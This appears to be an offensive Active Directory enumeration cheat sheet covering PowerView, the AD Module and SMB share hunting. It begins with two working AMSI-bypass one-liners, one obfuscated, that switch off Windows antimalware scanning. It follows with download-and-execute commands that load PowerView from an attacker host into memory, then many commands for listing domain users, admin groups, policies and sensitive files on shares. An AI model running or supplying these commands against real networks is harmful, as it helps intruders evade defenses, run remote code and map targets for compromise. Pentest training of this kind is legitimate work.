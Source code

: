 # Enumeration with PowerView (AMSI block it so we need to bypass it!)

### Here is how to search for a bypass: https://www.google.com/search?q=amsi+bypass+2024

```powershell
sET-ItEM ( 'V'+'aR' + 'IA' + 'bLE:1q2' + 'uZx' ) ( [TYpe]( "{1}{0}" -F'F','re' ) ) ; ( GeT-VariABle ( "1Q2U" + "zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(
(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','Management','Automation','s','System' ) )."g`etF`iELD"(
( "{0}{2}{1}" -f'amsi','d','InitFaile' ),
( "{2}{4}{0}{1}{3}" -f 'Static','c','NonPubli','c','' )
))."sE`T`VaLUE"( ${n ULl},${t`rUe} )
```

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Failed") {$f=$e}};$f.SetValue($null,$true)
```

### Install the PowerView script from kali

```powershell
iex (new-Object Net.WebClient).DownloadString('http://10.10.10.1:8000/PowerView.ps1')

IEX([Net.Webclient]::new().DownloadString("http://192.168.115.1:8000/powerview.ps1"))
```

### Get Command

```powershell
Get-NetDomain
Get-NetForest
Get-DomainSID
Get-DomainPolicy
(Get-DomainPolicy)."System Access"
(Get-DomainPolicy -Domain lab.local)."Kerberos Policy"

Get-NetDomainController
Get-NetDomainController -Domain lab.local

Get-NetUser # gets all users details on the domain!
Get-NetUser | select -ExpandProperty samaccountname # get all users names
Get-UserProperty
Get-UserProperty -Properties memberof

Get-NetComputer
Get-NetComputer -Ping # Computer that are on!
Get-NetComputer -FullData # Get everything about the computers
Get-NetComputer -OperatingSystem "*server*" # Get every server computer!

Get-NetGroup
Get-NetGroup -FullData
Get-NetGroup *admin*
Get-NetGroupMember -GroupName "Domain Admins" -Recurse
Get-NetGroup -UserName "xle0x"
Get-NetLocalGroup -ComputerName SQL-PROD-01.lab.local -ListGroups # Enumerate the groups of which this computer joined in!! but the problem it's blocked to see other computers! you have to be a local admin!

Get-NetGPO # gets group policy objects for all objects
Get-NetGPO -ComputerName DC-01.lab.local
Get-NetGPO | select displayname # gets you names of the policies
GetNetGPOGroup

Find-GPOComputerAdmin -ComputerName DC-01.lab.local
Find-GPOLocation -UserName xle0x -Verbose

Get-NetOU
Get-NetOU -FullData

Get-NetGPO -GPOName "{objectguid_here}"
```

# Enumeration with AD Module

### Installing AD Module
https://github.com/samratashok/ADModule/blob/master/Import-ActiveDirectory.ps1

Install it on kali and download it with WebClient, Once Downloaded Import it:

```powershell
Import-ActiveDirectory
```

### Get Domain

```powershell
Get-ADDomain
Get-ADForest
(Get-ADDomain).DomainSID

Get-ADDefaultDomainPasswordPolicy

Get-ADDomainController
Get-ADDomainController -DomainName lab.local -Discover

Get-ADUser -Filter * -Properties * # get all users details!
Get-ADUser -Filter * -Properties * | select -First 1 # Get the first user from the Get-ADUser output!

Get-ADComputer -Filter * | select Name # Get all computer names
Get-ADComputer -Filter 'OperatingSystem' -like "*10*"' -Properties OperatingSystem

Get-ADGroup -Filter * -Properties *
Get-ADGroup -Filter * | Select Name
Get-ADGroupMember -Identity "Domain Admins" -Recursive # shows you users of a group domain admins!

Get-ADPrincipalGroupMembership -Identity xle0x # shows you which groups xle0x is in!

Get-ADOrganizationalUnit -Filter * -Properties *
```


# Enumerating SMB With PowerView

### Invoke-ShareFinder (shows you shares!)
```powershell
Invoke-ShareFinder -Verbose
```

### Invoke-FileFinder (shows you sensitive files on shares!)

```poweshell
Invoke-FileFinder
```

### Get-NetFileServer

```powershell
Get-NetFileServer
```
